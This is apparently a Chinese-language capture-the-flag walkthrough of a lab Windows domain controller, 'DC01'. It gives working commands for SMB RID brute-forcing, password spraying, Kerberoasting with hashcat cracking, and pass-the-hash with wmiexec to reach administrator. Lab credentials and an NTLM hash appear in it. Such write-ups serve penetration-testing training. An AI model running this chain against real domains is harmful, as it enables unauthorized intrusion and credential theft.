










# DC01

`rustscan`扫描

```bash
$ rustscan -a 192.168.1.112 -- -Pn -sV -sC
```



可以看到是一台`windows`主机，而且在域`SOUPEDECODE.LOCAL0`中，在`hosts`中添加

```
192.168.1.112 SOUPEDECODE.LOCAL0 DC01.SOUPEDECODE.LOCAL0
```

## smb枚举

开放了`139` `445`端口，尝试使用`smbmap`枚举匿名或者来宾用户

```bash
$ smbmap -u anonymous -H 192.168.1.112
```



可以看到`IPC$`可读，我们可以利用这个用户 进行相对标识符（RID）暴力枚举出域内的其他用户

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u 'anonymous' -p '' --rid-brute > res.txt
```



```bash
$ cat res.txt | grep SidTypeUser | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt
$ wc -l users.txt
1069 users.txt
```

通过`rid`枚举 获取了1000多个用户名，尝试`AS-REP Roasting`失败，这些帐户都设置了`Kerberos`预身份验证所需的属性

```bash
$ impacket-GetNPUsers SOUPEDECODE.LOCAL0/ -usersfile ~/Downloads/users.txt -dc-ip 192.168.1.112
```

使用`smb`密码喷射

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u users.txt -p users.txt --no-bruteforce
```



找到了`smb`用户名密码

```
ybob317:ybob317
```

## 枚举Kerberos SPN

利用impacket-GetUserSPNs 枚举用户的服务帐户信息，然后使用这些 SPN 获取 Kerberos 服务票证（TGT），借助TGT我们可以向TGS请求获取TGS 并访问对应的服务

在枚举这些账户之前，我们需要先将攻击机的时间与域控的时间同步，不然会连接失败

```bash
# timedatectl set-ntp off
# rdate -n 192.168.1.112
# python3 GetUserSPNs.py SOUPEDECODE.LOCAL/ybob317 -dc-ip 192.168.1.112 -usersfile ~/Downloads/users.txt -request -outputfile spn-users.tgs
```



## hashcat

利用`hashcat`进行爆破

```bash
$ hashcat -a 0 -m 13100 spn-users.tgs ~/Desktop/secs/tools/dict/rockyou.txt
```



```
file_svc:Password123!!
```

## smb连接

看一下共享

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u "file_svc" -p 'Password123!!' --shares
```



看到一个`backup`，连接上去查看一下

```bash
$ smbclient //192.168.1.112/backup -U file_svc
Password for [MYGROUP\file_svc]: backup
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jun 18 01:41:17 2024
  ..                                 DR        0  Tue Jun 18 01:44:56 2024
  backup_extract.txt                  A      892  Mon Jun 17 16:41:05 2024

		12942591 blocks of size 4096. 10831341 blocks available
smb: \> get backup_extract.txt
getting file \backup_extract.txt of size 892 as backup_extract.txt (10.4 KiloBytes/sec) (average 10.4 KiloBytes/sec)
```



获取到了一些目标服务账户的NTLM密码哈希值，利用这些hash搭配前面的用户名单进行枚举，检查是否出现任何重复使用的密码

```bash
$ cat backup_extract.txt| cut -d ":" -f1 > names.txt
$ cat backup_extract.txt| cut -d ":" -f4 > hashes.txt
```

然后爆破

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL0 -u names.txt -H hashes.txt
```



连接

```bash
$ python3 wmiexec.py -hashes :e41da7e79a4c76dbd9cf79d1cb325559 SOUPEDECODE.LOCAL0/'FileServer$'@192.168.1.112 -codec gbk
```



可以看到已经具有管理员权限，直接拿`flag`即可，都在用户家目录的`Desktop`下

